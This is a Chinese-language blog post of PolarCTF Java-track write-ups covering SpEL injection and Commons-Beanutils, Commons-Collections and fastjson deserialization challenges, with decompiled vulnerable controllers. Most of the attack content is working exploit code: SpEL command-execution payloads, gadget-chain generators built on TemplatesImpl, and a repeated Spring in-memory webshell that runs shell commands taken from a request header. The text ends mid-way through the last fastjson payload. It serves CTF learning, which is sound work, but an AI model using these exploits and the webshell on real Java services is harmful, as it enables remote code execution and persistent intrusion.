---
title: "PolarCTF-Java方向题解"
date: 2025-12-04T10:38:20+08:00
summary: "PolarCTF-Java方向题解"
url: "/posts/Java题目之PolarCTF-Java方向题解/"
categories:
  - "javasec"
tags:
  - "java题目"
draft: false
---

# ezjava

## #Spel表达式注入

 题目提示flag在/app/flag.txt

先把附件的jar包丢jadx看一下



```java
package com.example.demo.controller;

import org.springframework.expression.EvaluationContext;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RequestMapping({"/SPEL"})
@RestController
/* loaded from: demo1-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/example/demo/controller/spel.class */
public class spel {
    @RequestMapping({"/vul"})
    public String spelVul(String ex) {
        ExpressionParser parser = new SpelExpressionParser();
        EvaluationContext evaluationContext = new StandardEvaluationContext();
        String result = parser.parseExpression(ex).getValue(evaluationContext).toString();
        System.out.println(result);
        return result;
    }
}
```

在 Spring MVC 中，`public String spelVul(String ex)` 里**没有注解**时，`ex` 会被当成 **请求参数**

一眼SpEL表达式注入，直接打就行

```java
/SPEL/vul?ex=T(java.lang.Runtime).getRuntime().exec("whoami")
```



但是命令执行结果并没有回显出来，因为exec函数本身就是会返回一个进程对象，所以需要读出来

```java
/SPEL/vul?ex=new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream())).readLine()
```

注意这里需要URL编码，不然hackbar没法传



# CB链

## #CB链+内存马

## 如何处理jar包

这里讲一下如何处理题目中的jar包到IDEA中

- 把jar包放进jadx中并导出为伪代码到一个空目录jar



- 在sources目录下删除与题目源代码无关的目录文件



- 将resources\BOOT-INF下的lib依赖目录移动到上级目录resources中

- 整个jar目录用idea打开，将sources标记为源代码根目录，将resources/lib添加为库

最后的效果



## 源码分析

先看依赖



存在CB链反序列化，并且CC的版本也是漏洞版本，可以打with CC的CB反序列化

跟进看一下org.example.controller.IndexController类

```java
package org.example.controller;

import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import javax.servlet.http.HttpServletRequest;
import org.example.User;
import org.example.tools.Tools;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
/* loaded from: CB.jar:BOOT-INF/classes/org/example/controller/IndexController.class */
public class IndexController {
    @RequestMapping({"/"})
    @ResponseBody
    public String index(HttpServletRequest request) {
        String ipAddress = request.getHeader("X-Forwarded-For");
        if (ipAddress == null) {
            ipAddress = request.getRemoteAddr();
        }
        return "Welcome PolarCTF~ <br>Client IP Address: " + ipAddress;
    }

    @RequestMapping({"/user"})
    @ResponseBody
    public String getUser(String user) throws Exception {
        byte[] userBytes = Tools.base64Decode(user);
        ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(userBytes));
        User userObj = (User) in.readObject();
        return userObj.getUserNicename();
    }
}
```

本来想反弹shell的，但是发现好像不出网，那就打内存马吧

## POC

先写个反序列化的POC

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

import static org.example.tools.Tools.*;

public class POC {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\jar\\out\\production\\jar\\Memshell.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

        BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue<Object>(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(comparator, "property", "outputProperties");//修改property触发getter方法
        setFieldValue(queue,"queue",new Object[]{templates,templates});// 设置BeanComparator.compare()的参数
        
        String poc = base64Encode(serialize(queue));
        System.out.println(poc);
    }
    //定义一个修改属性值的方法
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
}
```

然后写个内存马

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Memshell extends AbstractTranslet {
    static {
        org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
        javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
        javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows")? new String[]{"cmd.exe", "/c", httprequest.getHeader("Cmd")} : new String[]{"/bin/sh", "-c", httprequest.getHeader("Cmd")};
        byte[] result = new byte[0];
        try {
            result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().write(new String(result));
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().flush();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().close();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



成功反序列化打RCE

# CC链

## #CC链反序列化

先把jar包下下来反编译并放到idea中


很明显了，存在CC链反序列化

## 源码分析

看一下控制器

```java
package org.polar.ctf.controller;

import org.polar.ctf.util.Tools;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
/* loaded from: CC.jar:BOOT-INF/classes/org/polar/ctf/controller/ReadController.class */
public class ReadController {
    @RequestMapping({"/read"})
    @ResponseBody
    public String getObj(String obj) throws Exception {
        byte[] Bytes = Tools.base64Decode(obj);
        Object Obj = Tools.deserialize(Bytes);
        return Obj.toString();
    }
}
```

base64解码并调用deserialize

```java
package org.polar.ctf.util;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

/* loaded from: CC.jar:BOOT-INF/classes/org/polar/ctf/util/Tools.class */
public class Tools {
    public static byte[] base64Decode(String base64) {
        Base64.Decoder decoder = Base64.getDecoder();
        return decoder.decode(base64);
    }

    public static String base64Encode(byte[] bytes) {
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString(bytes);
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}
```

没过滤的反序列化操作，先用URLDNS测试一下发现不出网，那就打内存马吧

## POC

这里用CC3+CC6打

```java
package org.polar.ctf;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

import static org.polar.ctf.util.Tools.*;

public class EXP {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\jar\\out\\production\\jar\\Memshell.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(bytes);

        //InstantiateTransformer#transform()触发链
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //CC6
        Map<Object,Object> lazyMap = LazyMap.decorate(new HashMap<>(),new ConstantTransformer("1"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"2");

        //在put中修改factory，导致不会触发hash，并移除key
        HashMap<Object,Object> hashmap = new HashMap<>();
        hashmap.put(tiedMapEntry, "3");
        lazyMap.remove("2");

        //反射修改factory值
        setFieldValue(lazyMap,"factory",chainedTransformer);

        String poc = base64Encode(serialize(hashmap));
        System.out.println(poc);
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    //定义一个修改属性值的方法
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}

```

内存马

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Memshell extends AbstractTranslet {
    static {
        org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
        javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
        javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows")? new String[]{"cmd.exe", "/c", httprequest.getHeader("Cmd")} : new String[]{"/bin/sh", "-c", httprequest.getHeader("Cmd")};
        byte[] result = new byte[0];
        try {
            result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().write(new String(result));
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().flush();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().close();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



# ezJson

## #fastjson原生反序列化

```java
package com.polar.ctf.controller;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONArray;
import com.alibaba.fastjson.JSONObject;
import java.io.ByteArrayInputStream;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.util.Base64;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.servlet.tags.BindTag;

@Controller
/* loaded from: ezJson.jar:BOOT-INF/classes/com/polar/ctf/controller/ReadController.class */
public class ReadController {
    @RequestMapping({"/read"})
    @ResponseBody
    public String getUser(String data) throws Exception {
        if (data == null) {
            throw new IllegalArgumentException("Data cannot be null");
        }
        byte[] b = Base64.getDecoder().decode(data);
        if (b == null) {
            throw new IllegalArgumentException("Decoded data cannot be null");
        }
        InputStream inputStream = new ByteArrayInputStream(b);
        if (inputStream == null) {
            throw new IllegalArgumentException("Input stream cannot be null");
        }
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        Object obj = objectInputStream.readObject();
        JSONArray dataArray = new JSONArray();
        JSONObject item = new JSONObject();
        item.put("code", (Object) 200);
        item.put(BindTag.STATUS_VARIABLE_NAME, (Object) "success");
        item.put("obj", (Object) JSON.toJSONString(obj));
        dataArray.add(item);
        return dataArray.toJSONString();
    }
}
```


高版本的fastjson，有反序列化的点那就打fastjson原生反序列化

## POC

用map去绕过高版本的安全机制

```java
package com.polar.ctf;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class Poc {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\jar\\out\\production\\jar\\Memshell.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

        //触发TemplatesImpl#getOutputProperties()方法
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",jsonArray);

        //用Map去绕过fastjson2
        HashMap map = new HashMap();
        map.put(templates, badAttributeValueExpException);

        serialize(map);
    }

    public static Object getTemplates(byte[] bytes) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }

    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //将序列化字符串转为base64
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }
}
```

内存马

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Memshell extends AbstractTranslet {
    static {
        org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
        javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
        javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows")? new String[]{"cmd.exe", "/c", httprequest.getHeader("Cmd")} : new String[]{"/bin/sh", "-c", httprequest.getHeader("Cmd")};
        byte[] result = new byte[0];
        try {
            result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().write(new String(result));
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().flush();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().close();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```


# Fastjson

## #fastjson反序列化

 看依赖



低版本的fastjson

```java
package org.polarctf;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.Feature;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
/* loaded from: fastjsondemo-1.2.24-SNAPSHOT.jar:BOOT-INF/classes/org/polarctf/JsonController.class */
public class JsonController {
    @RequestMapping(value = {"/"}, method = {RequestMethod.GET}, produces = {"application/json;charset=UTF-8"})
    @ResponseBody
    public Object getUser() {
        User user = new User();
        user.setName("Polar D&N ~!");
        user.setId("2022");
        return user;
    }

    @RequestMapping(value = {"/"}, method = {RequestMethod.POST}, produces = {"application/json;charset=UTF-8"})
    @ResponseBody
    public Object setUser(@RequestBody String jsonString) {
        System.out.println(jsonString);
        JSONObject jsonObject = JSON.parseObject(jsonString, Feature.SupportNonPublicField);
        User user = (User) jsonObject.toJavaObject(User.class);
        user.setId("2023");
        return user;
    }
}
```

有一个parseObject反序列化函数，打fastjson序列化

## POC

TemplatesImpl+内存马

内存马

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Memshell extends AbstractTranslet {
    static {
        org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
        javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
        javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows")? new String[]{"cmd.exe", "/c", httprequest.getHeader("Cmd")} : new String[]{"/bin/sh", "-c", httprequest.getHeader("Cmd")};
        byte[] result = new byte[0];
        try {
            result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().write(new String(result));
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().flush();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().close();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

POC

```java
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class POC {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\jar\\out\\production\\jar\\Memshell.class"));
        String base64_code = Base64.getEncoder().encodeToString(bytes);

        String Payload = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_bytecodes\":[\""+base64_code+"\"]," +
                "\"_name\":\"test\"," +
                "\"_tfactory\":{}," +
